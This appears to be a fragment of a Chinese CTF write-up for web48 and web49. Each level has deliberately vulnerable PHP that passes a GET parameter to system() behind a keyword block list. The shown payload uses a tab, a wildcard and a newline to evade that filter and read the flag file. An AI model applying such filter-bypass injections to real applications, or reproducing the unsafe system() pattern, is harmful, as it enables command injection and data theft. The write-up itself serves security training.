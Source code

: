 
```
?c=tac%09fla?.php%0a

```

## web48

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
?c=tac%09fla?.php%0a

```

## web49

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
} 

```

